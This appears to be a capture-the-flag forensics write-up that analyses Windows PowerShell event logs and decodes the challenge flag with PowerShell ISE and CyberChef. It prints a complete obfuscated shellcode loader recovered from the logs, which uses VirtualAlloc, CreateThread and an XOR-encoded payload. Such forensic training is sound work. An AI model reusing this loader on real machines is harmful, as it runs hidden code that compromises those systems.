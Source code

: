 ```yaml
---
title: HTB Cyber Apocalypse CTF - Forensics - Puppeteer
author: gore-ez-knee
date: 2022-05-14 14:30:00 -0500
categories: [CTF, HTB CA 2022]
tags: [ctf, htbca2022, htb, forensics, hackthebox, powershell, evtx, evt]
image:
  src: /assets/img/post_images/ctf/htb-ca-2022/htb-ca-ctf-banner.png
  width: 1700
  height: 400
---
```


## Challenge Info

Difficulty: ★☆☆☆

> Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

## Tools Used

- PowerShell ISE
- CyberChef
- Event Log Explorer

## Process

### Download Artifacts

Clicking `Download` for the challenge provides us a zip file of evtx files which are Windows Event Log files. 

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot1.jpg)

They're a little different than traditional log files in that they are stored in a binary format. Using Windows Event Viewer is how they are normally viewed, but it's not ideal when trying to filter, parse, and search message fields during an investigation. Some options that are available are using tools such as [dumpevtx](https://github.com/Velocidex/evtx) from Velocidex (The company behind Velociraptor) to a tool I learned about taking GCFA: Event Log Explorer.

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot2.jpg)

The tool is free for personal, non-commercial use, and a license for it is available for $199. Since I haven't used it since I took GCFA, I thought it be interesting to try it out again.

> Event Log Explorer is not required to solve this challenge. You can `cat` out the files and manually parse through them to find the ScriptBlocks.
{: .prompt-info }

### PowerShell Event Logs

When I was doing a forensics challenge on HackTheBox, I ran into obfuscated code which ran PowerShell scripts. I remember hearing about PowerShell script logging, but had never enabled it before. I found this article by Mandiant which detailed out how to enable PowerShell logging in Windows 10 since it isn't enabled by default [link](https://www.mandiant.com/resources/greater-visibilityt).

With PowerShell being a popular technology used to execute code on Windows, if I ever see PowerShell event logs I flock to them first. Looking in the Logs directory, we can see 3 PowerShell evtx files: 
- `Windows Powershell.evtx`
- `Microsoft-Windows-Powershell/Operational.evtx`
- `Microsoft-Windows-Powershell/Admin.evtx`

The first file `Windows Powershell.evtx` has a handful of logs. There are also event IDs of 400, 600, and 800:

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot3.jpg)

- EID 400: The engine status is changed from None to Available - This indicates the start of a PowerShell activity, whether remote or local.
- EID 600: Proivder "X" is Started - Indicates that a provider is starting to perform a PowerShell activity on the system.
- EID 800: Pipeline Execution Details: Shows pipeline execution information of a command executed by PowerShell

We can see that some commands were ran by PowerShell at ~8:40:31 AM. The details from the `Windows PowerShell.evtx` don't give us too much detail, but we can see what the script name was, where is it was ran from, the user who ran it, and the command line arguments with some sketch variables ($tNZvQCljVk and $OleSPrlmhB).

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot4.jpg)

Let's move over to the `Microsoft-Windows-Powershell/Operational.evtx` logs. Using the pivot point time of 8:40:31 AM, there are events: 4103 (Executing Pipeline) and 4104 (Execute a Remote Command).

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot5.jpg)

The 4104 event shows the entire scriptblock that was executed and houses some clear obfuscation

```powershell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);
```

This looks like it's going to contain the info we ned to solve the challenge.

### PowerShell DeObfuscation

I initially started trying to deobfuscate this head first and was getting a little overwhelmed. Then looking back over the code, I focused on the comments:

```
...
# Unpack Shellcode;
...
# Unpack Special Orders;
...
```

Okay, so the massive byte array is the shellcode. I don't think that's going to reveal the flag. Plus it seems to be completely separate from the $stage1, $stage2, and $stage3 variables that are un-xor'd in the second for-loop. Deobfuscating that first looks a bit easier than going through all of shellcode, so I'll focus on that first. If it doesn't show anything promising, I'll try deobfuscating the shellcode.

Deobfuscating the "Special Orders" only requires a few lines of PowerShell from the scriptblock:

```powershell
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

[array]::Reverse($stage2);

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

We can actually just copy and paste this into PowerShell ISE, add a `Write-Output $stage3` at the end and it should give us the output we need.

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot6.jpg)

The output appears to be in decimal, so we can take this and paste it into CyberChef. CyberChef will pick up on the format and suggest to decode it for us by clicking the magic wand next to "Output".

![](/assets/img/post_images/ctf/htb-ca-2022/forensics/puppeteer/snapshot7.jpg)

### Conclusions

PowerShell logging is incredibly valuable. I use it when running Dynamic Malware Analysis to see what commands PowerShell executed. It is handy in solving some of these HTB challenges so if you have a Windows VM that you use for malware analysis or monitoring endpoints with PowerShell, I highly recommend making sure PowerShell event logging is enabled.